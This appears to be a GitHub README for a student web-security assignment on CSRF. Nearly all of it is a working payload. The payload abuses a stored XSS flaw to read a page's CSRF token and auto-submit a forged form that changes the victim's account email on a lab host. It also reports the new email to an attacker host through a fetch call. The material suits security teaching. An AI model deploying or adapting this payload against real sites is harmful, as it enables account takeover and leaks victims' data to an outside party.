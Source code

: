 # WebSecurity-CSRF
Web Security Assignment on CSRF


# Script that will exploit the stored XSS vulnerability and trigger a CSRF

<form id="fake_form" action="http://www.vulnerable.com:5000/profile/update-email" method="POST"> 
  <input id="my_mail"  name="email" value=""> 
  <input id="my_csrf" name="csrf" value=""> 
</form> 

<script> 
 
  function rndMail() {
    return "test@" +  Math.floor(Math.random() * 100) + ".com"; 
 } 
 
  window.onload = function() { 

    

    let stolen_csrf = [...document.getElementsByTagName("form")].filter((f) => {
    return f.action.includes("/comment");
  })[0].children[0].value;
 
    let new_mail = rndMail()
    document.getElementById("my_mail").value = new_mail
    document.getElementById("my_csrf").value = stolen_csrf;

    //attackers logging
    let url = "http://www.attacker.com:5000/leak?newmail=" + new_mail; 
    fetch(url, {method: "GET", mode: "no-cors"});

    document.getElementById("fake_form").submit(); 
}
</script>
